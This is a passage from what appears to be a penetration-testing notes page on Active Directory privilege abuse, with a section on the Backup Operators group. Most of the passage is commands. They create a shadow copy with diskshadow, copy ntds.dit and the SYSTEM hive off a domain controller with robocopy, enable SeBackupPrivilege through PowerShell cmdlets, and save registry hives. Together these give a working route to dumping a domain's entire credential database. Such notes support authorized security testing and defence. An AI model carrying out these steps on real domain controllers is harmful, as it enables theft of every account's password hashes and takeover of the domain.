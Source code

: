 ```
# For more tools and techniques to create a shadow volume or on how to extract credentials from the ntds.dit, refer to the `[ActiveDirectory]
ntds.dit dumping` note.

diskshadow.exe
  set context persistent nowriters
  add volume c: alias <ALIAS>
  create
  expose %<ALIAS>% <DRIVE_LETTER>:

robocopy /b "<DRIVE_LETTER>:\Windows\NTDS" "<EXPORT_FOLDER>" ntds.dit
robocopy /b "<DRIVE_LETTER>:\Windows\System32\config" "<EXPORT_FOLDER>" SYSTEM

diskshadow.exe
  delete shadows volume %<ALIAS>%
  reset
```

If `robocopy` is not available on the targeted Domain Controller, or if the
`SeRestorePrivilege` was removed for the `Backup Operators` group, the
privilege must be `Enabled` in a process `access tokens` in order to be able to
backup files. This restriction is not applied through processes executed
through `PowerShell Remoting` and thus the backup of the `ntds.dit` file
should preferably be done through this mean if possible.

Otherwise, if access to a Domain Controller through `PowerShell Remoting` is
not a possibility and access must be done through an interactive session, a
PowerShell process must be started in an elevated security context and the
`SeBackupPrivilege` token manually enabled:

```
# Lists the privileges, and their status, present in the current process Access Tokens
# If SeBackupPrivilege appears as "Disabled" ("SeBackupPrivilege  Back up files and directories  Disabled"), the process runs in a elevated security context but SeBackupPrivilege must be enabled.
whoami /priv

# Starts PowerShell in an elevated context.
Right click -> "Run as Administrator"
Start-Process -Verb RunAs powershell.exe

# Enables the SeBackupPrivilege privilege in the current process Access Tokens.
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege

# Open the source file with the FILE_FLAG_BACKUP_SEMANTICS flag in order to backup it.
Copy-FileSeBackupPrivilege <SHADOW_VOLUME_NTDS_DIT> <EXPORT_FILE>
reg save HKLM\SYSTEM <EXPORT_PATH>\SYSTEM
```

### DnsAdmins

